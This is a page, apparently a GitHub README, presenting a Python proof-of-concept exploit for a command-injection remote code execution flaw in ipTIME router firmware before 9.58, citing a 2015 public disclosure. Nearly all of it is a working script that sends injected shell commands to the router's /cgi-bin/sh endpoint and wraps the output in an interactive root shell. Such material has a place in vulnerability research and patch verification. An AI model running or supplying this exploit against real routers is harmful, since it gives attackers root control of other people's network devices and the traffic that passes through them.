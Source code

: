 # ipTIME Router firmwares < 9.58 RCE with root privileges
## The Basics
Product : <a href="https://pierrekim.github.io/blog/2015-05-05-127-iptime-routers-wifiaps-modems-firewalls-models-vulnerable-with-RCE-with-root-privileges.html">total 127 devices were affected (ipTIME Router firmwares < 9.58)</a></br>
Tested Version : ipTIME N604R Version 9.24</br>
Bug-class : Remote Code Execution (Command Injection)</br>

## Exploit PoC
```python
import os
import sys
import requests

def exploit(command, current_dir):
    url = 'http://192.168.0.1/cgi-bin/sh'
    headers = {
        'Content-Type': 'text/plain',
        'User-Agent': 'Mozilla/5.0'
    }
    if not command.endswith(';'):
        command+=";"
    data = f"X=X;echo 'Content-type: text/plain';echo;cd {current_dir};{command}"
    res = requests.post(url, headers=headers, data=data)
    return res.text

if __name__ == "__main__":
    current_dir = "/"
    while True:
        command = input(f"[ root@192.168.0.1:{current_dir} ]\n $ ")
        if command.startswith("cd "):
            path = command.split(" ", 1)[1]
            current_dir = os.path.normpath(os.path.join(current_dir, path))
            continue
        elif command == "clear" or command == "cls":
            os.system("clear")
        elif command == "exit":
            sys.exit()
        else:
            try:
                result = exploit(command, current_dir)
                if command.strip().startswith("pwd"):
                    current_dir = result.strip()
                print('\n' + result)
            except:
                pass
```

## Reference
<a href="https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html">https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html</a>
